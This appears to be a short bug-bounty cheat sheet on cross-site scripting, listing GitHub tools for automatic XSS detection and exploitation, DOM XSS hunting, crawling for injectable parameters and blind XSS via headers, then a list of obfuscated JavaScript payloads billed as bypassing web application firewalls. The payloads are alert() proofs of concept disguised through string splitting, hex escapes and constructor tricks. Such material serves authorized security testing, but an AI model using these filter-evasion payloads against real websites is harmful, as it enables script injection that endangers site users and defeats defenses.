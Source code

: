 > 1. XSS automatic detection and exploit
```
https://github.com/garlic0x1/go-reflect
https://github.com/Encryptor-Sec/XSSearch
https://github.com/theinfosecguy/QuickXSS
```

> 2. DOMXSS Find and Exploit
```
https://github.com/edoardottt/lit-bb-hack-tools/tree/main/doomxss
```
> 3.Crawl entire website for xss parameter
```
https://github.com/thenurhabib/collector
https://github.com/Qianlitp/crawlergo
```
> 4. Testing blind xss via headers using xsshunter
```
https://github.com/muhamadkarkuki/xssHeaders
```
> Some XSS Payloads which bypasses the WAF
```
[%27al\x65rt%27](document.domain);//
window[‘alert’](0)
parent[‘alert’](1)
self[‘alert’](2)
top[‘alert’](3)
this[‘alert’](4)
frames[‘alert’](5)
content[‘alert’](6)
constructor.constructor(“aler”+”t(3)”)();
[].filter.constructor(‘ale’+’rt(4)’)();
top[“al”+”ert”](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top[‘al\x65rt’](9);
foo%27-top[%27al\x65rt%27](document.domain);//
```
